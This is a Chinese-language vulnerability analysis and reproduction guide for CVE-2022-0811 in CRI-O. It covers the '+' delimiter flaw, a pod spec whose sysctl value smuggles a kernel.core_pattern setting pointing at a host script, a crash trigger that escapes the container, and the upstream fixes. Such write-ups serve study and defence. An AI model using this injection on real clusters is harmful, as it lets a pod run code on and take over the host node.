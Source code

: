 # CVE-2022-0811

## 一、漏洞分析

CVE-2022-0811 是一个 CRI-O 漏洞，利用这个漏洞可以在创建容器时绕过 CRI-O 的限制，设置任意内核参数，并影响同一 k8s 节点下的其他容器。

在创建容器的时候，CRI-O 通过 pinns 来设置内核参数，格式如下：

```shell
pinns -s key1=val1+key2=val2
```

可以看到 pinns 使用“+”字符来分割每个键值对。在调用 pinns 之前，CRI-O 会先检查每个 key 的前缀，只有在 key 的前缀在白名单里时，才允许设置内核参数 [1.1]：

```go
var prefixNamespaces = map[string]Namespace{
    "kernel.shm": IpcNamespace,
    "kernel.msg": IpcNamespace,
    "fs.mqueue.": IpcNamespace,
    "net.":       NetNamespace,
}

// Validate checks that a sysctl is whitelisted because it is known to be
// namespaced by the Linux kernel. The parameters hostNet and hostIPC are used
// to forbid sysctls for pod sharing the respective namespaces with the host.
// This check is only used on sysctls defined by the user in the crio.conf
// file.
func (s *Sysctl) Validate(hostNet, hostIPC bool) error {
    ......
    for p, ns := range prefixNamespaces {
        if strings.HasPrefix(s.Key(), p) {
            if ns == IpcNamespace && hostIPC {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            if ns == NetNamespace && hostNet {
                return errors.Errorf(nsErrorFmt, s.Key(), ns)
            }
            return nil
        }
    }
    return errors.Errorf("%s not whitelisted", s.Key())
}
```

如同前面提到的那样，CRI-O 在调用 pinns 的时候，是直接把每个键值对用“+”拼接起来的 [1.2]：

```go
func getSysctlForPinns(sysctls map[string]string) string {
    // this assumes there's no sysctl with a `+` in it
    const pinnsSysctlDelim = "+"
    g := new(bytes.Buffer)
    for key, value := range sysctls {
        fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
    }
    return strings.TrimSuffix(g.String(), pinnsSysctlDelim)
}
```

然而，上面的检查操作并没有对 value 进行检查，因此，可以通过在内核参数的 value 中加入另一对键值对来绕过 key 的检查，例如“value1+key2=value2”，其中 key2 和 value2 就是另一个内核参数的键值对，这样，最终调用 pinns 时的参数就是“key1=value1+key2=value2”，key2 绕过了检查，但仍会被 pinns 识别并设置。

## 二、漏洞复现

### 环境搭建

* Linux: Ubuntu 22.04
* Kubernetes: 1.23.4
* CRI-O: 1.23.1

运行 bash 命令来搭建环境：

```shell
sudo ./metarget cnv install cve-2022-0811 --verbose
```

其中，CRI-O 可能需要额外安装，详情可参考[CRI-O 安装文档](https://github.com/cri-o/cri-o/blob/main/install.md#install-packaged-versions-of-cri-o)。

### 复现步骤

创建一个新的 Pod，配置文件（[pod-a.yaml](pod-a.yaml)）内容如下[2.1]：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-a
spec:
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

进入 `pod-a` 的 `shell`：

```shell
kubectl create -f pod-a.yaml
kubectl exec -it pod-a -- /bin/sh
```

通过 `mount` 命令，可以得到如下结果：

![](img/pod-a_mount.png)

其中，`upperdir` 为 **/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff** ，这是内核到容器根目录的路径。

创建一个脚本文件 [malicious.sh](malicious.sh)，内容为：

```shell
#!/bin/sh
date >> /var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/output
```

用 `chmod a+x` 为这个文件添加执行权限，然后在根目录下 `touch` 一个 `output` 文件。

接下来创建另一个Pod（[pod-b.yaml](pod-b.yaml)），内容为：

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-b
spec:
  securityContext:
   sysctls:
   - name: kernel.shm_rmid_forced
     value: "1+kernel.core_pattern=|/var/lib/containers/storage/overlay/d0ae0689a1a6475972ae3f35e168e4feb3b506de0e0daafd032157cd3fb1428f/diff/malicious.sh #"
  containers:
  - name: alpine
    image: alpine:latest
    command: ["tail", "-f", "/dev/null"]
```

再次进入 `pod-a` 的shell，获取 **/proc/sys/kernel/core_pattern** 的内容：

![](img/pod-a_cat_core_pattern.png)

最后在 `pod-a` 中的 `shell` 触发容器逃逸漏洞，可以在宿主机上执行恶意脚本内容[2.2]：

```shell
ulimit -c ulimited
tail -f /dev/null &
ps
kill -SIGSEGV <PID>
ps
```

![](img/pod-a_trigger_vul.png)

此时再次查看 `output` 文件，就可以得到脚本输出的内容（date），说明造成了 `pod-a` 到宿主机的逃逸：

```shell
# cat output
2025年 04月 13日 星期日 17:55:37 CST
```

## 官方修复

CRI-O 官方发布了两个修复版本，第一个版本对 key 和 value 都进行检查，判断里面是否包含“+”，如果包含则会返回错误 [3.1]：

```go
for key, value := range sysctls {
    if strings.Contains(key, pinnsSysctlDelim) || strings.Contains(value, pinnsSysctlDelim) {
        return "", errors.Errorf("'%s=%s' is invalid: %s found yet should not be present", key, value, pinnsSysctlDelim)
    }
    fmt.Fprintf(g, "'%s=%s'%s", key, value, pinnsSysctlDelim)
}
```

第二个版本则是修改了 pinns 的调用方式，通过多个“-s”来设置多个内核参数，而不是像之前那样用“+”拼接起来 [3.2]：

```go
for key, value := range cfg.Sysctls {
    pinnsArgs = append(pinnsArgs, "-s", fmt.Sprintf("%s=%s", key, value))
}
```

## 参考

[1.1] [https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73](https://github.com/cri-o/cri-o/blob/v1.23.1/pkg/config/sysctl.go#L73)

[1.2] [https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174](https://github.com/cri-o/cri-o/blob/v1.23.1/internal/config/nsmgr/nsmgr.go#L174)

[2.1] [https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)

[2.2] [https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md](https://github.com/h4ckm310n/Container-Vulnerability-Exploit/blob/main/CVE-2022-0811/README.md)

[3.1] [https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b](https://github.com/cri-o/cri-o/commit/c0b2474b80fd0844b883729bda88961bed7b472b)

[3.2] [https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c](https://github.com/cri-o/cri-o/commit/76f1301c9eb979cbecdbbbb41ed72774285a814c)
